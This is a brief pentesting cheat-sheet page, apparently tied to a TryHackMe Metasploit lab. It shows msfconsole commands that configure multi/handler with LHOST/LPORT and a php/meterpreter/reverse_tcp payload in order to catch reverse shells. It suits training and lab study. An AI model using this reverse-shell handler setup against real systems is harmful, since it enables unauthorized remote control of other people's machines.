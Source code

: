 # msfhandler

[![metasploitexploitation](../../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

<div class="row row-cols-lg-2"><div>

The msfconsole can be used to catch reverse shells. Some reverse shell may be upgradable to a [meterpreter](../index.md#meterpreter), which is the main goal.

* First, load the exploit, and define LHOST/LPORT 

```ps
$ msfconsole -q
msf6> use multi/handler
msf6 exploit('multi/handler')> setg LHOST tun0
msf6 exploit('multi/handler')> setg LPORT 4444
```

* Select the payload that would be appropriate

```ps
# example
msf6 exploit('multi/handler')> set PAYLOAD php/meterpreter/reverse_tcp
```
</div><div>

* Run the catcher, and wait for incoming connections.

```ps
msf6 exploit('multi/handler') > run
# WAIT
# OK session created
meterpreter> help # see what you can do
```

➡️ Your shell may not be a meterpreter, so you may try to [upgrade it](../index.md#meterpreter).
</div></div>